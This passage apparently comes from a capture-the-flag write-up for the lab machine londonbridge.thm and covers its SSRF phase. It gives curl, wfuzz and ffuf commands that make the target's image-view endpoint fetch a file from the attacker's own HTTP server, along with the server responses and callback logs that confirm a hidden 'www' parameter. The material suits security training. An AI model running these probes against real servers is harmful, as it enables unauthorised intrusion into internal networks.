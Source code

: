 > **SSRF (Server-Side Request Forgery) Phase**
> 

`echo 'hello_world' > injectfile`

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`curl -iL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'image_url=http://10.2.37.37:8000/injectfile' -D ssrftestresult.txt $'http://londonbridge.thm:8080/view_image'`

```bash
HTTP/1.1 200 OK
Server: gunicorn
Date: Wed, 02 Oct 2024 06:07:36 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 900

</head>
<body>
    <h1>View Image</h1>
    <form action="/view_image" method="post">
        <label for="image_url">Enter Image URL:</label><br>
        <input type="text" id="image_url" name="image_url" required><br><br>
        <input type="submit" value="View Image">
    </form>
    
    <img src="http://10.2.37.37:8000/injectfile" alt="User provided image">

</body>
</html>
```

`wfuzz -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H "Content-Type: application/x-www-form-urlencoded" -X POST -d 'FUZZ=http://10.2.37.37:8000/injectfile' -u http://londonbridge.thm:8080/view_image --hc 403,404,500,501,502,503 --hh 823`

```bash
000000536:   200        1 L      1 W        12 Ch       "www"
```

```bash
10.10.32.116 - - [02/Oct/2024 02:12:36] "GET /injectfile HTTP/1.1" 200 -
10.10.32.116 - - [02/Oct/2024 02:13:38] "GET /injectfile HTTP/1.1" 200 -
10.10.32.116 - - [02/Oct/2024 02:15:23] "GET /injectfile HTTP/1.1" 200 -
```

`ffuf -u 'http://londonbridge.thm:8080/view_image' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'FUZZ=http://10.2.37.37:8000/injectfile' -mc all -t 30 -ic -fs 823`

```bash
www                     [Status: 200, Size: 12, Words: 1, Lines: 2, Duration: 986ms]
```
